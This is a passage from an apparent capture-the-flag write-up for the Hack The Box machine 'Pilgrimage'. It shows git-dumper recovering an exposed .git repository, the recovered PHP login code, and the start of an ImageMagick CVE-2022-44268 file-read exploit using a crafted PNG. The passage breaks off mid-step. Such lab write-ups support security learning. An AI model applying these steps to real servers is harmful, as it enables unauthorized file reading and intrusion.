 A more complete view of the exposed Git repository is available by using `git-dumper`:

```console
$ git-dumper http://pilgrimage.htb/.git/ git
[-] Testing http://pilgrimage.htb/.git/HEAD [200]
[-] Testing http://pilgrimage.htb/.git/ [403]
[-] Fetching common files
[-] Fetching http://pilgrimage.htb/.gitignore [404]
[-] http://pilgrimage.htb/.gitignore responded with status code 404
[-] Fetching http://pilgrimage.htb/.git/COMMIT_EDITMSG [200]
[-] Fetching http://pilgrimage.htb/.git/description [200]
[...]
[-] Running git checkout .

$ ls -ld git
drwxr-x--- 5 e e 4096 Nov 20 14:48 git

$ ls git
assets  dashboard.php  index.php  login.php  logout.php  magick  register.php  vendor

$ cat git/login.php
<?php
session_start();
if(isset($_SESSION['user'])) {
  header("Location: /dashboard.php");
  exit(0);
}

if ($_SERVER['REQUEST_METHOD'] === 'POST' && $_POST['username'] && $_POST['password']) {
  $username = $_POST['username'];
  $password = $_POST['password'];

  $db = new PDO('sqlite:/var/db/pilgrimage');
  $stmt = $db->prepare("SELECT * FROM users WHERE username = ? and password = ?");
  $stmt->execute(array($username,$password));
[...]
```

From that I see a password is stored in `/var/db/pilgrimage`.

## Exploit

There's an LFI exploit for this version of ImageMagick: <https://github.com/voidz0r/CVE-2022-44268>

Create the test payload:

```console
$ convert ~/655bbd2283d4a.png -resize 50% output.png
```

I upload `output.png` to the vulnerable service, and download the new file, `655bbd2283d4a.png`. To read the response, I have to use an ImageMagick command called `identify`, which includes the output. I can pipe it directly to `python3` to decode the hexadecimal encoding like this:

